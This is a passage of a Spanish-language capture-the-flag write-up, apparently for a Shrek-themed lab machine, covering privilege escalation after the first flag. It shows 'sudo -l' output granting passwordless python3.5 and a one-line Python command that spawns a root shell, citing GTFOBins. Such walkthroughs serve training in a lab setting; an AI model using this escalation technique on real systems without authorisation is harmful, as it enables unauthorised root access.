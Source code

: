 ```
XXXXXXXXXXXO         XMMX'     ,NMMX  ..;WMN,     .XMMMO...    xXXXXXXXXXXXX
XXXXXXXXXXX0         .NMMMXkxkXMMMk   ...,0MMXkxkXMMMMN,...    dXXXXXXXXXXXX
XXXXXXXXXXXX          .xWMMMMMMWk.    .....c0MMMMMMMMk'....    dXXXXXXXXXXXX
XXXXXXXXXXXXl            ,colc'   .;::o:dc,..'codxdc''.....    dXXXXXXXXXXXX
XXXXXXXXXXXXX         .OOkxxdxxkOOOx ,d.:OOOOkxxxxkkOOd....    xXXXXXXXXXXXX
XXXXXXXXXXXXXd         oOOOOOOOOOOOOxOOOOOOOOOOOOOOOOO,....    OXXXXXXXXXXXX
XXXXXXXXXXXXXX.         cOOOOOOOOOOOOOOOOOOOOOOOOOOOx,.....    KXXXXXXXXXXXX
XXXXXXXXXXXXXXO          .xOOOOOOOOOOOOOOOOOOOOOOOkc.......    NXXXXXXXXXXXX
XXXXXXXXXXXXXXX;           ;kOOOOOOOOOOOOOOOOOOOkc.........   ,XXXXXXXXXXXXX
XXXXXXXXXXXXXXX0             ;kOOOOOOOOOOOOOOOd;...........   dXXXXXXXXXXXXX
XXXXXXXXXXXXXXXX.              ,dOOOOOOOOOOdc'.............   xXXXXXXXXXXXXX
XXXXXXXXXXXXXXXX.                 .''''..   ...............   .kXXXXXXXXXXXX
XXXXXXXXXXXXXXXK           .;okKNWWWWNKOd:.    ..............   'kXXXXXXXXXX
XXXXXXXXXXXXXXX'        .dXMMMMMMMMMMMMMMMMWO:    .............   'kXXXXXXXX
XXXXXXXXXXXXXK'       ,0MMMMMMMMMMMMMMMMMMMMMMWx.   ............    ,KXXXXXX
XXXXXXXXXXXKc       .0MMMMMMMMMMMMMMMMMMMMMMMMMMMk.   ............    xXXXXX
XXXXXXXXXXl        cWMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMo   .............   :XXXX
XXXXXXXXK.        dMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM0    ............   .KXX
XXXXXXXX.        'MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMO   .............   'XX

invite-me: https://www.linkedin.com/in/eliastouguinho/
```
Ya tenemos la primera flag, ahora a por la escalada de privilegios.

## Escalada de Privilegios

Para la escalada de privilegios vamos a probar con un típico sudo -l a ver que encontramos.

```
shrek@ubuntu:/home$ sudo -l
Matching Defaults entries for shrek on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shrek may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3.5

```
<br>Por lo que podemos ver el usuario shrek puede ejecutar como root gracias a sudo python3.5 por lo que podríamos escalar privilegios a través de python. Nos podemos ayudar de
<a href="https://gtfobins.github.io/" target="_blank">GTFOBins</a>.<br><br>

```
$ whoami
shrek
$ sudo python3.5 -c 'import os; os.system("/bin/sh")'  
# whoami
root

```

<br>¡Ya hemos conseguido acceso root! Ahora a por esa flag ubicada en '/root/'.
